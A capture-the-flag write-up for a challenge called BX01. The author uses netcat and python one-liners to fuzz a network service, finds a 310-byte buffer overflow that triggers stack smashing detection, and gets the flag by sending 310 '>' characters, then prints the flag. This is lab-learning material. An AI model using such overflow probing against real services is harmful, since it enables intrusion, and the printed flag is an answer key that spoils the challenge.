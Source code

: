 # BX01
## BRIEFING

Access the network service at url: `cfta-bx01.allyourbases.co` and port: `8012` and find a way to get the flag by formatting a valid request.

## Solution

We were provided only a domain and a port to connect to. I started off by connecting via netcat to see what I was working with:

```
root@osboxes:~/Downloads/be02# nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
```

We are given the opportunity to input something of our choosing. If we input something short the program will say `Error: Exception unresolved. Terminating.`:

```
root@osboxes:~/Downloads/be02# nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
asdf
Error: Exception unresolved. Terminating.
```

If we input something long we can trigger a stack smashing detection:

```
root@osboxes:~/Downloads/be02# python -c 'print "A" * 500' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
```

Playing around a little bit we find that the buffer size is 310; if we input 311 characters we will get the `*** stack smashing detected ***` message.

```
root@osboxes:~/Downloads/be02# python -c 'print "A" * 310' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
root@osboxes:~/Downloads/be02# python -c 'print "A" * 311' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
*** stack smashing detected ***
```

Given the exception for "angle brackets not terminated" I sent 310 >'s instead of 310 A's and I got the flag:

```
root@osboxes:~/Downloads/be02# python -c 'print ">" * 310' | nc cfta-bx01.allyourbases.co 8012
Processing request...
Exception: angle brackets not terminated.
Request successful.

Flag: AlOnGSeaRcHFoROverWriTe
```

The flag is **AlOnGSeaRcHFoROverWriTe**.
